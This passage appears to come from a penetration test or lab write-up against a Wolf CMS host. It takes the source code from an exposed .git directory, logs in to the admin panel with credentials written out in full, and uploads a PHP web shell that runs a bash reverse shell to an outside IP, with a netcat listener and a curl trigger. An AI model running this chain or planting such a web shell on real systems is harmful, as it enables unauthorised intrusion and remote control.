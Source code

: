
### 2.2 Git Repository Exploitation

**Objective:** Extract source code from exposed repository

**Discovery:**
```bash
curl http://10.50.100.20/.git/
```

**Result:** Accessible Git repository containing complete application source code.

**Command Executed:**
```bash
git clone http://10.50.100.20/.git/ source_extracted
```

**Findings from Source Code:**
- Database configuration in config.php
- Administrative credentials storage mechanism
- File upload functionality in admin panel
- CMS platform: Wolf CMS

---

### 2.3 Web Application Authentication

**Target URL:** http://10.50.100.20/admin/login

**Credentials Used:**
```
Username: robert_admin
Password: SecureP@ss2024
```

**Result:** ✅ Successful authentication to administrative panel

**Access Granted:**
- File management interface
- Content management system
- User administration
- System settings

---

### 2.4 Web Shell Deployment

**Objective:** Establish reverse shell through file upload

**Payload Created (webshell.php):**
```php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.50.100.5/4444 0>&1'");
?>
```

**Upload Process:**
1. Accessed file manager in admin panel
2. Uploaded webshell.php to /public/ directory
3. Set up netcat listener: `nc -lvnp 4444`
4. Triggered payload: `curl http://10.50.100.20/public/webshell.php`
